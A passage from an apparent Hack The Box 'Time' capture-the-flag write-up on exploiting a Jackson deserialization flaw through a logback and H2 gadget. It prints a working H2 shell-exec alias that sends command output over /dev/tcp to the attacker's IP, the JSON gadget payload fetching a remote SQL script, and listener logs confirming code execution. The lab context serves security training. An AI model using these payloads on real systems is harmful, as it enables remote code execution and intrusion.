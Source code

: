 Checked the source code for the page, noticed a file `main.js`

^--nothing?

Searched for exploits related to com.fasterxml.jackson.core

[https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

[https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-through/java/sid-3929](https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-through/java/sid-3929)

```text
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > /dev/tcp/10.10.14.159/8081')
```

test.sql

```text
"[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}]"
```

```text
["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url"%3a"jdbc%3ah2%3amem%3a%3bTRACE_LEVEL_SYSTEM_OUT%3d3%3bINIT%3dRUNSCRIPT+FROM+'http%3a//10.10.14.159%3a8082/test.sql'"}]
```

AFter some testing, I discovered that the POC code had some `\` that they were using to excape the quotes. These were causing the validator in this case to throw an error.

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ python3 -m http.server 8082                 
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.10.10.214 - - [15/Mar/2021 19:31:42] "GET /test.sql HTTP/1.1" 200 -
10.10.10.214 - - [15/Mar/2021 19:36:15] "GET /test.sql HTTP/1.1" 200 -
```

After I removed them from my code I got a connection back, downloading my test.sql.

```text
zweilos@kali:~/htb/time$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 36640
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

I got a connection back on my machine, proving the remote code execution worked. Next I replaced the `id` command with a reverse shell.

## Initial Foothold
